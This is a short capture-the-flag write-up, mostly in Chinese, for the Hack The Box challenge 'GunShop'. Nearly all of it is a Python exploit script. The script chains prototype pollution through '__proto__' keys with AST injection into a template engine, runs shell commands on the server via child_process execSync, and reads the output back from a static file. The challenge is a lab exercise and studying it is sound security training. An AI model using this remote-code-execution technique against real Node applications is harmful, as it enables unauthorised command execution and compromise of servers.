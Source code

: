 ## [GunShop][https://app.hackthebox.com/challenges/245]

**unflatten seems outdated and a bit vulnerable to prototype pollution
we sure hope so that po6ix doesn't pwn our puny app with his AST injection on template engines**
根据[[../method/AST注入|AST注入]]漏洞构造exp：
```python
import requests

TARGET_URL = 'http://localhost:1337'
TARGET_URL = 'http://docker.hackthebox.eu:30448'

# make pollution
r = requests.post(TARGET_URL+'/api/submit', json = {
    "artist.name":"Gingell",
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`ls > /app/static/out`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
    })

print(r.status_code)
print(r.text)

print(requests.get(TARGET_URL+'/static/out').text)

```
执行并在相应目录下找到flag文件
